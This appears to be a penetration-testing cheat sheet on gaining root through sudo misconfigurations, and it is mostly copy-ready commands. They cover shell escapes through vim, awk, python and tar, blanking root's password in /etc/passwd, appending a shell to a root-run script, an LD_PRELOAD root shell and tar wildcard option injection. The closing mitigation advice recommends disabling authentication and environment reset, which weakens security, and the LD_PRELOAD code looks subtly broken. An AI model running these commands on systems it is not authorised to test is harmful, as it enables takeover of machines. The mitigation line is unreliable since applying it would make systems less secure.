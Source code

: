 **Elevating Privilege through `sudo`**

Privilege escalation through `sudo` misconfigurations occurs when a low-privileged user can execute commands with root privileges because Administrator has done incorrect `sudoers` settings and given unintended privilege to a normal user.

**To check what commands you can run with `sudo`, use:**
```
sudo -l
```
If the output shows commands that can be run as root (`(ALL) NOPASSWD:`) without a password, it may be exploitable.

**If `sudo -l` shows:**
```
(root) NOPASSWD: /bin/su
```
**You can escalate privileges with:**
```
sudo su
```

**If `sudo -l` allows:**
```
(root) NOPASSWD: /bin/bash
```
**You can get a root shell:**
```
sudo -i
```
**or**
```
sudo /bin/bash
```

**If `sudo` allows executing an unrestricted binary like `vim`, `awk`, or `python`, you can escalate privileges:**
```
sudo vim -c ':!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo less /etc/passwd
!/bin/sh
sudo perl -e 'exec "/bin/sh";'
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
More exploitable binaries can be found at **[GTFOBins](https://gtfobins.github.io/)**.

**If `sudo` allows running `nano`, `vi`, or `vim` on system files:**
```
(root) NOPASSWD: /usr/bin/nano /etc/passwd
```
**You can edit `/etc/passwd` to remove the root password:**
```
sudo nano /etc/passwd
```
**Modify the root entry:**
```
root:x:0:0:root:/root:/bin/bash
```
**to:**
```
root::0:0:root:/root:/bin/bash
```
**Save and exit, then switch to root without a password:**
```
su root
```

**If `sudo -l` allows executing a script:**
```
(root) NOPASSWD: /path/to/script.sh
```
**Modify the script:**
```
echo "/bin/bash" >> /path/to/script.sh
sudo /path/to/script.sh
```

**If `sudo` allows running commands but does not clear environment variables:**
```
echo 'int main() { setgid(0); setuid(0); system("/bin/sh"); }' > /tmp/root.c
gcc -fPIC -shared -o /tmp/root.so /tmp/root.c -nostartfiles
sudo LD_PRELOAD=/tmp/root.so /bin/bash
```

**If `sudo` allows commands like:**
```
(root) NOPASSWD: /bin/tar * 
```
**You can execute arbitrary commands:**
```
echo "id" > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
echo "sh 0<&2 1>&2" > /tmp/--checkpoint-action=exec=sh
echo "sh 0<&2 1>&2" > /tmp/--checkpoint=1
sudo tar -cf /dev/null /tmp/*
```

**To mitigate risks:
Restrict `sudoers` settings:**
  ```
  visudo
  ```
**Ensure:**
  ```
  Defaults !authenticate, !env_reset, secure_path
  ```
**Remove unnecessary `sudo` permissions:**
  ```
  sudo visudo
  ```
 **Remove lines like:**
  ```
  ALL=(ALL) NOPASSWD: ALL
  ```
And follow least privilege principles to prevent exploitation.

